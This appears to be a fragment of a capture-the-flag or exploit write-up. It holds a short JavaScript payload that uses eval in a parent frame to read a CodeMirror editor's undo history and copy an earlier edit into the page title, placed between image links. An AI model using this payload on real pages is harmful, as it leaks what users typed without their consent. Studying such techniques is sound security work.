 ![](img/p222.png)

```Javascript
_top.eval('var ffff = ""; obj = document.querySelector(".CodeMirror")["CodeMirror"]["doc"]["history"]["done"];');
_top.eval('ffff += JSON.stringify(obj[15]["changes"][0]["text"]);');
_top.eval('document.title = "wtf"+ffff;');
```

![](img/概率吗.png)
